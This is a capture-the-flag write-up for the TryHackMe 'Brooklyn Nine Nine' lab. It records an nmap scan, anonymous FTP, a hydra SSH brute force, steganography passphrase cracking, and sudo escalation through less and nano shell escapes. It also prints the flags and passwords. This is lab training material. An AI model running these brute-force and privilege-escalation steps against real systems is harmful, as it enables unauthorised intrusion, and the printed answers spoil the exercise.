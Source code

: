 # [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

```
export IP=10.10.120.202
```

---

## Task 1
1. User flag

	a. Nmap scan (`nmap -sV -sC -oN nmap/initial $IP`):
	```
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to ::ffff:10.6.53.245
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 4
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
	|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
	|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-title: Site doesn't have a title (text/html).
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	```

	b. Accessed the FTP server using the Anonymous username and no password. Retrieved the `ftp/note_to_jake.txt` file:
	```
	From Amy,

	Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
	```

	c. Gave me a hint to try brute forcing SSH using the username `jake`. So I ran the `hydra` command:
	```
	hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$IP
	```

	d. Was able to get the username and password:
	```
	username: jake
	password: 987654321
	```

	e. SSH'd into the box with `jake:987654321` and found the user.txt flag @ `/home/holt/user.txt`:
	```
	ee11cbb19052e40b07aac0ca060c23ee
	```


2. Root flag

	a. Checked `jake`'s root privileges with `sudo -l`:
	```
	Matching Defaults entries for jake on brookly_nine_nine:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User jake may run the following commands on brookly_nine_nine:
	    (ALL) NOPASSWD: /usr/bin/less
	```

	b. Went to GTFOBins to find a privesc for `less`:
	```
	# https://gtfobins.github.io/gtfobins/less/#shell
	sudo less /etc/profile

	# Then while in less, run:
	!/bin/sh
	```

	c. Got root access! Flag found @ `/root/root.txt`:
	```
	63a9f0ea7bb98050796b649e85481845
	```


3. ALTERNATIVE ROOT ACCESS

	a. There is an image we can download from the website located at `http://$IP:80/brooklyn99.jpg`
	```
	wget http://$IP:80/brooklyn99.jpg
	```

	b. After trying a few basic steganography tactics, we realize that something is hidden in the file and we need to extract it using a password.

	c. Enter `stegcracker`.
	```
	stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
	```

	d. Found the passphrase: `admin`.

	e. Use the passphrase to extract whatever is in the `brooklyn99.jpg` image:
	```
	steghide --extract -sf brooklyn99.jpg

		Enter passphrase: admin
	```

	f. A file called `note.txt` is found and put into our directory. It has the contents:
	```
	Holts Password:
	fluffydog12@ninenine

	Enjoy!!
	```

	g. SSH into the target using the following username/password:
	```
	username: holt
	password: fluffydog12@ninenine
	```

	h. Check sudo privileges with `sudo -l`:
	```
	Matching Defaults entries for holt on brookly_nine_nine:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User holt may run the following commands on brookly_nine_nine:
	    (ALL) NOPASSWD: /bin/nano
	```

	i. GTFOBins privesc for `nano`:
	```
	# https://gtfobins.github.io/gtfobins/nano/#shell
	sudo nano
	^R^X
	reset; sh 1>&0 2>&0
	```

	j. Root access numero dos, baby! 
